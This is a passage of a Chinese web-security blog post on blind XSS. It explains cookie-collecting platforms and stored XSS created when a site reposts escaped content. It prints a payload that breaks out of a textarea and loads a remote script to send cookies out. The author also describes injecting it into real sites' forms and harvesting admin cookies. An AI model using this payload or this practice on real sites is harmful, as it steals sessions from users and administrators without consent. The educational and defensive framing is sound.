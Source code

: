 ![](https://www.fooying.com/images/post/the-art-of-xss-2-xss-fuzzing/1490260654619_6339_1490260655454.png)

这是一篇发表在微信公众号的文章，文章中包含了一些XSS盲打（后面会进行介绍）的攻击代码，然后可以看到，在微信公众号文章里代码被进行了转义，而无法生效产生XSS。

![](https://www.fooying.com/images/post/the-art-of-xss-2-xss-fuzzing/1490260686959_8118_1490260687674.png)

chuansong.me是一个第三方网站，会主动采集微信公众号上的一些文章并生成访问链接和索引，可以看到同样的一篇文章在被传送门采集转载后，本来会被转义的代码直接生效了，于是就成为了存储型XSS，我们通过盲打平台也可以看到其他用户访问这篇文章而被采集并发送到盲打平台的Cookie。

![](https://www.fooying.com/images/post/the-art-of-xss-2-xss-fuzzing/1490260725666_8096_1490260726286.png)

有的时候，被转义的内容也会成为生效的攻击代码，通过控制源头的方式也可以使得XSS的攻击产生。

**随手进行的XSS盲打**

![](https://www.fooying.com/images/post/the-art-of-xss-2-xss-fuzzing/1490260769622_7106_1490260770591.png)

这是我XSS盲打平台项目的其中一页结果截图，这里的每一项都包含对应网址访问用户的Cookie，而Cookie则可以用来直接登录对应的地址；在图里包含了360 soso、360游戏客服、新浪邮箱等几个网站的后台的Cookie，不过可惜的是，由于这些平台进行了访问限制，所以外网无法访问，也无法登录。

抛开无法访问的问题，那么这些信息是怎么得来了呢？XSS盲打。

> 常规的XSS攻击是通过页面返回内容中JS攻击代码的生效与否来判断XSS的攻击是否成功；而对于一些网页功能，比如反馈，我们可以发现，不管你提交什么内容，返回的内容都是"感谢您的反馈"类似的语句，并不会根据你提交的内容而在页面中显示不同的内容，对于这样的内容提交点，就无法通过页面反馈判断攻击代码是否注入成功，那么就可以通过XSS盲打。  
> XSS盲打一般通过XSS盲打平台，在XSS盲打平台建立项目，会生成项目攻击链接，实际上就是一个类似JS文件的访问链接，这个JS文件中其中至少包含一个功能，那就是向盲打平台发送GET/POST请求传输数据回来，比如Cookie，这样的话，类似在反馈页面提交的攻击代码一旦生效，就等于JS代码被执行，那么就会向盲打平台返回数据，那就说明攻击成功了；假如一直没有返回数据，那就说明提交的攻击代码没有执行或者执行出问题，也就证明攻击失败。  
> 盲打平台的项目：

![](https://www.fooying.com/images/post/the-art-of-xss-2-xss-fuzzing/1490260814055_1991_1490260814898.png)

对于我而言，看到类似下图这样一个内容提交的地方，我都会忍不住提交盲打代码

```markup
</textarea>'"><script src=http://t.cn/R6qRcps></script>
```

![](https://www.fooying.com/images/post/the-art-of-xss-2-xss-fuzzing/1490260857481_2744_1490260858052.png)

而类似于这样的功能，如果存在XSS，一般会在什么地方什么时候出发攻击代码呢？管理人员在后台审核这些内容的时候，所以说一般XSS盲打如果成功，往往可以获得对应功能管理后台的地址以及管理员的Cookie，假如管理后台没有做访问的限制，就能用对应管理员的Cookie登录上去。

![](https://www.fooying.com/images/post/the-art-of-xss-2-xss-fuzzing/1490260866874_8430_1490260867678.png)

这就是上图手游客服中心盲打成功得到的后台地址和Cookie（当前已失效并修复）。

**总结**

在XSS的世界里有很多的Fuzzing技巧和方式，学会从正常功能中发现攻击方式，在Web安全的世界里，除了技术，还需要猥琐的思维和技巧。  
另外，其实大家不难发现，不管是昵称、网址跳转或者是文章提到的内容转义的变化也好，很多时候内容原有的地方并不会触发XSS，而内容在其他地方使用后则就触发了XSS，所以对于开发人员来说，不管是来自哪里的内容，都应该有自己的过滤机制，而不能完全的信任，其实总结一句话就是：任何的输入都是有害的！

